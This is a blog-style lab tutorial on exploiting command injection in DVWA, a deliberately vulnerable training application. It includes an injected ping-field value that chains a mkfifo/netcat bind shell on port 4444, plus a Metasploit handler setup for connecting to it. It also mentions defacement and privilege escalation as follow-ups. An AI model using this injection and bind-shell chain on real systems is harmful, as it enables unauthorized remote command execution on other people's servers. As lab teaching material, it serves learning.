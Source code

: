 ```yaml
---
layout: post
section-type: post
title: Exploiting Command Injection vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa' ]
---
```

Command Injection is the manipulation of a vulnerable software in order to execute arbitrary commands on the host operating system.
Command Injections are possible when the vulnerable application skips the input validation before executing a shell command on the host operating system.
We'll get our hands on DVWA's Command Injection section, and then we'll spawn a backdoor on the host, using [Metasploit](https://www.metasploit.com/).

Visit the *Command Injection* section of DVWA.

![ci-0](/img/posts/ci/ci-0.png)

The page says that it will ping an IP address for us, so let's see what will do for the IP *127.0.0.1*:

![ci-1](/img/posts/ci/ci-1.png)

Now, let's try to append a list bash command after our input IP address:

![ci-2](/img/posts/ci/ci-2.png)

Sweet, DVWA simply appends our input in the underlying bash command!

Now, let's listen on port 4444 and redirect all the incoming bytes to a bash shell:

<pre><code data-trim class="bash">
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
</code></pre>

![ci-3](/img/posts/ci/ci-3.png)

As you noticed the page is loading forever, so our backdoor is open and waiting for us :smile:

Let's start metasploit and open the shell on the server:

<pre><code data-trim class="bash">
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
</code></pre>

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is 4444.

As you notice we are the *www-data* user, and that's why we can't read the /etc/shadow file, why contains the user passwords of the operatinf system.
But, we have all the privileges that *www-data* user has, and that's enough for defacing DVWA, or exploiting a local privilege escalation vulnerability on the server, in order to get root priviledges.

Happy TCP binding!
